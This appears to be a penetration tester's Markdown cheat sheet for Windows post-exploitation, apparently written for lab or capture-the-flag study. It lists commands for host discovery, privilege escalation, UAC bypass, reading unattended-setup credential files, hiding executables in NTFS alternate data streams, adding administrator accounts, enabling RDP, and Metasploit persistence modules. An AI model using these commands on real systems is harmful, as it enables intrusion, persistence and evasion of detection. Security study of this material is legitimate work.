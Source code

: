 
# Cmd ping sweep (host discovery)

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.86.174.%i > nul && echo 10.86.74.%i is up.
```

# Privesc

## Tools
[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) #Windows_priv_esc
[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) #Windows_priv_esc
[Metasploit local priv modules](Metasploit)  #Windows_priv_esc
[MimiKatz](Mimikatz.md) #password_dump
 
## By passing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the windows target system


[UACME](https://github.com/hfiref0x/UACME) 

- UACme tool allows attackers to execute malicious payloads on Windows target with administrative/elevated privs by abusing the inbuilt Windows AuteElevate tool


## Token Impersonation

[Token Impersonation](Token_Impersonation.md)   

[Sweet potato](https://github.com/CCob/SweetPotato)


## Unattended Windows Setup 

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems 
It's Typically done by **Unattended Windows Setup** which is used to automate the mass installation/deployment of Windows on systems
This tool utilizes configuration files that contain specific configurations and user account credentials, specially the Administrator account's password


- The Unattended Windows Setup utility will typically save files inside:
```
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
```

## Powersploit 

[Powersploit](https://github.com/PowerShellMafia/PowerSploit)
Invoke-AllChecks

## Pass the hash

#passhash 

# Evasion 
## ADS (Alternate Data Streams)
**Data stream**: The content of the file eg. what's inside a text file is the data stream
**Metadata**: Information about the file eg. when file was created and by who etc.

- Alternate Data Streams (ADS) is an NTFS (New technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
- Any file created on an NTFS formatted drive will have twi different forks/streams:
	- Data stream - Default stream that contains the data of the file
	- Resource stream - Typically contains metadata of the file
- Attackers can use ADS to hide malicious code or executables in legitimate files to evade detection 
- This can be done by storing malicious code or executables inside metadata of legitimate file

### Example

```powershell

notepad file.txt:hiddenfile # Creats a txt file and inside of a second file 

type PAYLOAD.exe > normalfile.txt:PAYLOAD.exe # hiding .exe file inside txt file

start normalfile.txt:PAYLOAD.exe # executing file inside normalfile.txt
OR
# Create link to the hidden file
mklink wupdate.exe PATH_OF_THE_FILE:PAYLOAD.exe
wupdate.exe # Will start PAYLOAD.exe

```

# System useful commands
## Powershell
```powershell

whoami /all
whoami /priv#  to check my user priv 
icacls check priv for files
- [enviroment]::Is64Bit [ARGUMENT] 

OperatingSystem # to check if the OS running 64bit
Process # to check if the processes running 64 bit
schtasks#  check running tasks cmd 

systeminfo

New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose # create user inside of a domain

```

###

Check file perm

`Get-ACL <file> | Fl * `


## CMD


```powershell

whoami /priv # user privs
net user # info about user
net localgroup  # check my user groups
net localgroup administrators # or anygroup check for users in group
net user USER PASSWORD # changet user USER password to PASSWORD
net user htb abc123! /add # add the user htb with the password abc123!
net localgroup administrators htb /add # add user htb to administrators group



#services
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 


# enable rdp

powershell -command "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop' "

```

### Credentials user impersonation

If you have **valid credentials of any other user**, you can **create** a **new logon session** with those credentials :

```
runas /user:domain\username cmd.exe
```












# Metasploit

## PRIV ESC 
```rb

# Exploit Suggester 
https://github.com/AonCyberLabs/Windows-Exploit-Suggester


# On the target

systeminfo
# Copy output into a file on attacker machine

./windows-exploit-suggester.py --update # Download database 

./windows-exploit-suggester.py --database DATABASEFILE.xls --systeminfo SYSTEMINFOFILE.txt

```

## Post Exploitation
```ruby

use post/windows/gather/win_privs # check user privs 
OR 
getprivs # on Meterpreter

use post/windows/gather/enum_logged_on_users # check logged in users history

use post/windows/gather/checkvm # check vm

use post/windows/gather/enum_applications # enum apps on target
use post/windows/gather/enum_av_excluded # enum for paths excluded by av
use post/windows/gather/enum_computers # enum connected computers in same LAN
use post/windows/gather/enum_shares # enum shares 

# UAC bypass

use exploit/windows/local/bypassuac_injection

```

# Maintain access 

[MimiKatz](Mimikatz.md) 



## Metasploit
- Metasploit uploads a exe payload and add the exactable to the system services and when the system gets booted if we have only listener on we will get a reverse shell and maintain access on the target  or enabling RDP etc.
```rb

use exploit/windows/local/persistence_service # adding payload to the system services to be executed when system reboots

# Meterpreter

run getgui -e -u ignite -p 123 # Enable RDP and add user of the name ignite and password 123
run getui -e # just enabble RDP

# On metasploit
use  post/windows/manage/enable_rdp  # enable RDP on target

set username pavan

set password 123

set session 1
---

```